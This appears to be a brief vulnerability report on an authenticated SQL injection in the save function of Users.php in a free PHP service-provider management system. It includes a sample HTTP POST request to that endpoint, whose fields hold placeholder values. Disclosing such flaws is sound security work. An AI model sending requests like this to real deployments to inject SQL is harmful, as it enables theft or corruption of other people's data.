


The Service Provider Management System has an SQL injection vulnerability that can be exploited by an attacker to steal information or corrupt a database if they are authenticated.


Source code address：https://www.sourcecodester.com/php/16501/service-provider-management-system-using-php-and-mysql-source-code-free-download.html


The vulnerability is located in the /classes/Users.php file, and the behavior of SQL statement concatenation can be seen in the code snippet.




Vulnerability verification：

```
POST /php-spms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 851
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1DJJzgzjbq52p1Xv
Origin: http://192.168.80.152
Referer: http://192.168.80.152/php-spms/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=suk69fhqi40gc49c7nb515t7il
Connection: keep-alive

------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="id"


------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="firstname"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="middlename"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="lastname"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="username"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="password"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary1DJJzgzjbq52p1Xv--

```

 


